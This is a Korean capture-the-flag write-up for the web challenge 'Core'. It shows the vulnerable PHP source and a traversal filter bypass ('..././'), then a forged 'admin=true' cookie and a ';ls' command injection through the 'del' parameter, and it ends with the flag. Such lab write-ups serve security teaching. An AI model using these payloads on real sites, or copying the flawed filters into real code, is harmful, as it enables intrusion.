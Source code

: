 # Core

**Description:**
> 핵 실험은 진행 중... :(  
> (Core/Kernel/Nucleus/Hack)

## Write-up
![Main](img/001.png)  
메인 페이지에 접근해보면 핵폭발 후 생기는 버섯구름처럼 보이는 것을 볼 수 있습니다.  
버섯구름 아래에 보면 초록색으로 되어있는 잡초를 볼 수 있고 눌러보면 php 파일이 다운로드 됩니다.

우선 다운로드 되는 경로를 살펴보면 다음과 같습니다.  
/download.php?file=hack  
/download.php?file=the  
/download.php?file=planet

실제로 다운로드 받은 파일을 보면 hack, the, planet과 같이 파일명을 입력하면 php 확장자를 붙여서 다운로드 됩니다.  
따라서 download.php 파일을 다운로드 받기 위해서는 다음과 같이 시도할 수 있습니다.  
/download.php?file=download  
/download.php?file=../download  
하지만, 두 경우 모두 Not Found로 파일을 다운로드 받을 수가 없습니다.

상대 경로로 상위 이동하여 파일을 다운로드 받는 부분이 정상적으로 동작하는지 알기 위해서 다음과 같이 시도하여 정상적으로 파일이 다운로드 되면 상위 경로로 올라가는 "../" 문자열이 필터링되어 있는 것을 추측할 수 있습니다.

/download.php?file=../hack  
시도한 결과, hack.php 파일이 정상적으로 다운로드가 되었습니다.

이 부분을 우회하기 위해서 "../"를 이중으로 넣어서 우회할 수 있습니다.  
다음과 같이 시도해보면 download.php 파일이 정상적으로 다운로드 되는 것을 볼 수 있습니다.  
/download.php?file=..././download

download.php:  
```
<?php
    $file = isset($_GET['file']) ? $_GET['file'] : false;
    if($file) {
        if(@preg_match("/Core/i", $_GET['file'])) exit("Access Denied!");
        $_GET['file'] = str_replace("../", "", $_GET['file']);

        $split_path = @explode("/", $_GET['file']);
        $path = "";
        for($i=0;$i<count($split_path)-1;$i++) {
            $path .= $split_path[$i]."/";
        }
        $real_path = realpath('files/'.$path);
        if(strpos($real_path, "Core") === false) exit("Access Denied!");
        @$file_path = "files/".$_GET['file'].".php";

        $filesize = @filesize($file_path);
        $path_parts = @pathinfo($file_path);
        $filename = $path_parts['basename'];
        $extension = $path_parts['extension'];

        if(!$filesize) exit("Not Found");
        header("Pragma: public");
        header("Expires: 0");
        header("Content-Type: application/octet-stream");
        header("Content-Disposition: attachment; filename=\"$filename\"");
        header("Content-Transfer-Encoding: binary");
        header("Content-Length: $filesize");
        ob_clean();
        flush();
        readfile($file_path);
    } else {
        print("Access Denied!");
    }
?>
```

download.php 소스 코드를 보면 파일이 다운로드 되는 과정을 볼 수는 있지만 추가적인 정보를 얻기에는 부족합니다.  
다시 처음으로 돌아가서 메인 페이지의 소스 코드를 보면 다음과 같은 코드를 볼 수 있습니다.  
```
.hint:sublime { text-decoration: none; }
```

![Hint](img/002.png)  
힌트는 Sublime Text로 메인 페이지의 소스를 Sublime Text로 보면 ADMIN이라는 문자열을 확인할 수 있고 admin으로 파일 다운로드를 시도하면 admin.php 파일을 획득할 수 있도록 마련한 장치입니다.  
/download.php?file=..././admin

admin.php:  
```
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <style type="text/css">
        body { background-color: #1d1d1d; color: #ffffff; padding: 90px; }
        a { text-decoration: none; color: #61646d; padding-left: 30px; }
        h1 { display: inline-block; color: #b20000;}
    </style>
    <title>ADMIN</title>
</head>
<body>
<?php
    @include 'config.php';

    print("<h1>Admin Page</h1>");
    print("<img src='files/worker.png'>"); 
    print("<br>Our website is still under construction. Sorry for the inconvenience...");
    @exec("ls files/",$list);

    $del = isset($_GET['del']) ? $_GET['del'] : false;
    if($del) {
        if(@preg_match("/\*/i", $_GET['del'])) exit("Access Denied!");
        if(@strlen($del) <= 3) {
            @system("rm -f files/$_GET[del]");
        }
    }
    print("<h2>Lists...</h2>");
    for($i=0;$i<count($list);$i++) {
        print("<a href='?del=$list[$i]' onclick='alert(\"Unimplemented :(\");'>[DEL]</a> $list[$i]<br>");
    }
?>
</body>
</html>
```

admin.php 파일을 보면 config.php 파일을 확인할 수 있고 동일한 방법으로 다운로드 받아서 파일을 확인할 수 있습니다.  
/download.php?file=..././config

config.php:  
```
<?php
    if($_COOKIE['admin'] != "true") exit("Access Denied!");
?>
```

두 파일의 정보를 바탕으로 'admin' 쿠키 값을 "true"로 설정하고 admin.php 파일에 접근하면 관리자 페이지에 접근할 수 있습니다.  
![AdminPage](img/003.png)

그리고 admin.php 파일을 보면 다음과 같이 GET 파라미터로 값을 전달 받아서 파일을 삭제하는 부분을 볼 수 있으나, 아직 개발이 완료되지 않아서 전체 삭제가 되지 않도록 *(asterisk) 기호는 필터링되어 있고 글자 길이도 3 글자가 넘을 경우 실행되지 않도록 처리되어 있는 것을 볼 수 있습니다.  
```
    $del = isset($_GET['del']) ? $_GET['del'] : false;
    if($del) {
        if(@preg_match("/\*/i", $_GET['del'])) exit("Access Denied!");
        if(@strlen($del) <= 3) {
            @system("rm -f files/$_GET[del]");
        }
    }
```

보다 많은 정보를 얻기 위해서 이 부분을 우회하여 명령어가 실행되도록 아래와 같이 시도할 수 있습니다.  
/admin.php?del=;ls  
![AdminPage](img/004.png)

;ls를 입력하면 system("rm -f files/;ls");가 실행되기 때문에 현재 디렉터리의 파일 목록을 볼 수 있습니다.  
;는 명령어와 명령어 사이에 입력할 경우 두 명령어를 각각 실행할 수 있도록 구분지어 주는 역할을 해줍니다.  
그리고 ls가 실행된 결과를 보면 7h1s_is_f1a9.php 파일을 확인할 수 있습니다.

7h1s_is_f1a9.php 파일을 다운로드 받아서 확인해보면 Flag를 획득할 수 있습니다.  
/download.php?file=..././7h1s_is_f1a9

7h1s_is_f1a9.php:  
```
<?php
    print("Access Denied!");
    # Flag is TDCTF{C0R3_H4CK_NUCL3U5}
?>
```

## Flag
TDCTF{C0R3_H4CK_NUCL3U5}
